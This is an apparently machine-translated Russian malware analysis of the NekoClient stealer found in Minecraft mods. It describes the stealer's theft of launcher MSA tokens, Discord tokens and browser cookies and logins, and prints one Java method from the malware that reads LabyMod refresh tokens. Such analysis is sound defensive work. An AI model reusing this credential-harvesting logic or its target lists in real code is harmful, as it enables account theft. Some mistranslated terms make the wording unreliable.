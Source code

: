 **MSA Токены**: Поскольку этот мод предназначен для модов Minecraft, вполне естественно попытаться украсть токен MSA, используемый для входа в Minecraft. Некоторые лаунчеры хранят эти данные в локальном файле, из которого эта вредоносная программа попытается прочитать. Это влияет на различные пусковые установки, такие как:

* Ванильный/моджанговский лаунчер
* Устаревший лаунчер vanilla/mojang
* PolyMC / Prism
* Technic
* Feather
* LabyMod (< v3.9.59)
* И любой токен MSA, найденный в [Диспетчере учетных данных Windows](https://support.microsoft.com/en-us/windows/accessing-credential-manager-1b5c916a-6a16-889f-8581-fc16e8165ac0)

Логика поиска (см. [`dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java)) выглядит одинаково для ряда элементов, поскольку они хранят эти данные аналогичным образом. Например, вот код laby-mod:
```java
private static void retrieveRefreshTokensFromLabyMod(List<RefreshToken> refreshTokens) throws IOException {
	String appdata = System.getenv("APPDATA");
	if (Platform.isWindows() || Objects.isNull(appdata)) {
		Path path = appdata == null ? null : Paths.get(appdata, ".minecraft", "LabyMod", "accounts.json");
		if (Files.isReadable(path)) {
			extractRefreshTokensFromLabyModLauncher(refreshTokens, Json.parse(Files.readString(path)).asObject());
		}
	}
}
```
Код для получения токенов из Feather/PolyMC/Prism практически идентичен.

Отличие этой стратегии от ванильных лаунчеров заключается в том, что Json имеет дополнительный уровень криптографии, защищающий его.

Изменение от этой стратегии к технике заключается в том, что техника хранит учетные данные, используя встроенную в Java сериализацию объектов, обертывая тип `com.google.api.client.auth.oauth2.StoredCredential`.

**Discord токены**: Все видели токенворовщиков раньше. Похищает токен и дополнительную информацию, такую ​​как способы оплаты, связанный номер телефона и т. д. Влияет на стандартный клиент, клиенты canary, ptb и lightcord. Соответствующий источник: [`dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java`](https://github.com/clrxbl/NekoClient/blob/fd76c5f9d40d1e10de11f00a6b4e0cca3d6221a3/dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java)

**Файлы cookie и сохраненные учетные данные**: Похищает сохраненные файлы cookie и учетные данные для входа, сохраненные в уязвимых браузерах. Соответствующий источник: [`dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java)

- Mozilla Firefox
  - Waterfox
  - Pale Moon
  - SeaMonkey
- Chrome
  - Edge
  - Brave
  - Vivaldi
  - Yandex
  - Slimjet
  - CentBrowser
  - Comodo
  - Iridium
  - UCBrowser
  - Opera
